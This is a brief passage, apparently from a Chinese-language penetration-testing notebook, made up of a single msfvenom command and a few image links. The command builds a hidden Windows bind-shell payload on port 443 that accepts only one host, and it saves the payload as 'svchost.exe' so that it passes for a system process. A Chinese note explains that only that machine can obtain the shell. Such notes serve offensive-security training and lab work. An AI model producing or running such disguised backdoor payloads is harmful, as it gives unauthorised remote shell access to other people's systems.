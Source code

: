 	>msfvenom -p windows/shell_hidden_bind_tcp LPORT=443 AHOST=192.168.0.107 -f exe > svchost.exe
	只有当107这台机器连接时可获得shell，其他机器不可以。
![image](/assets/Pentest_Note/master/img/568.png)
![image](/assets/Pentest_Note/master/img/569.png)
![image](/assets/Pentest_Note/master/img/570.png)